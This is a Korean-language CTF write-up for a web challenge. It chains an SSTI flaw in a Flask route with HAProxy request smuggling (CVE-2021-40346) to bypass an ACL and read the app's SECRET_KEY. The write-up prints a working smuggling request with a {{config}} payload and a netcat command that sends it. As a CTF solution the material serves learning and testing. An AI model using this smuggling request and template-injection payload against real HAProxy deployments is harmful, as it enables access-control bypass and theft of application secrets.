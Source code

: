 # Repeated Lock

#### Author : randN

#### Category : WEB

#### Description
```The students asked for help from Sr. Sergio from TI for deploying a patched version of the new 4841 proxy. This time they protected the server a little better. ```

#### Write up

해다 문제에서는 python파일과 웹 페이지가 제공됩니다.
```
from flask import Flask, render_template, render_template_string, request
import os
import utils


app = Flask(__name__)
app.config['SECRET_KEY'] = 'CTFUA{REDACTED}'


@app.route('/', methods=['GET', 'POST'])
def home():
    return render_template('home.html')


@app.route('/admin', methods=['GET', 'POST'])
def admin():
    return 'Under Construction...'


@app.route('/users')
def users():
    username = request.args.get('user', '<User>')
    if utils.filter(username):
        return render_template_string('Hello ' + username + '!')
    else:
        return 'Hello ' + username  + '!'


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```
![page](https://user-images.githubusercontent.com/84657474/147018221-e3b478f5-22db-41bb-aaa5-3f6de9d8a93f.png)

Python 코드를 조금 주의 깊게 본다면 **user** 메소드에 SSTI 취약점이 존재하는것을 알 수 있지만 사용자 경로에 엑세스하려고 하면 **403 Forbidden** 이라고 뜹니다.

앱 인프라에 대한 정보를 누출하는 서버 헤더가 있으며, Challenge설명에 4841 프록시에 대한 참조가 있었습니다.

4841은 HA의 16진수 값 이므로 사용되는 프록시는 HA 프록시 입니다.

이 경우에 유용할 수 있는 취약점에 대해 일부 Google 검색을 수행하면 취약점이 나타납니다.
https://jfrog.com/blog/critical-vulnerablility-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

이제 배치된 ACL을 우회하기 위해 HTTP 요청을 생성하거나 페이로드를 작성하면됩니다.

Flask SECRET_KEY에 엑세스하고 싶기때문에 가장 간단한 페이로드를 시도해보았습니다. ```{{config}}```

```
POST /admin HTTP/1.1
Host: ctf-metared-2021.ua.pt:2011
Content-
Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Lengt: 101

Get /users?user=%7B%7Bconfig%7D%7D HTTP/1.1
h:GET /admin HTTP/1.1
HOST: ctf-metared-2021.ua.pt:2011
```

```cat poc | nc ctf-metared-202.ua.pt 2011``` 명령어를 실행하면 간단하게 Flag를 얻을 수 있었습니다.
